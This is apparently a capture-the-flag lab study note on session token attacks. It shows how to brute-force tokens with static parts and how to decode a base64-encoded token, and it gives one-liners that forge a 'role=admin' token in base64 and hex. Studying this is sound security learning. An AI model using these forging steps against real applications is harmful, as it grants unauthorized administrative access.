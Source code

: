 # 🕶️ Session Attacks

a common flaw in apps that use session token and the main danger is if a session token is too short or contains static data that does not provide randomness to the token

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption><p>easy bruteforce</p></figcaption></figure>

Now a bit more complex but as easy to break ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This seems complex but let's say we send plenty of requests:

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

the static string `2c0c58b27c71a2ec5bf2b4` followed by four random characters and the static string `92b9f9`

So we can still bruteforce

Some more realistic stuff would consist of session tokens that contains encoded data

This seems very random:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But in fact ->

```shell-session
ElFelixi0@htb[/htb]$ echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d

user=htb-stdnt;role=user
```

So we could create our session token with a simple command:

```shell-session
echo -n 'user=htb-stdnt;role=admin' | base64
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We should also keep an eye out for data in hex-encoding or URL-encoding.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>hex-encoded data</p></figcaption></figure>

And to craft a session token we could simply use the follwoing:

```shell-session
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

_**Obtain administrative access on the target to obtain the flag.**_

```
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
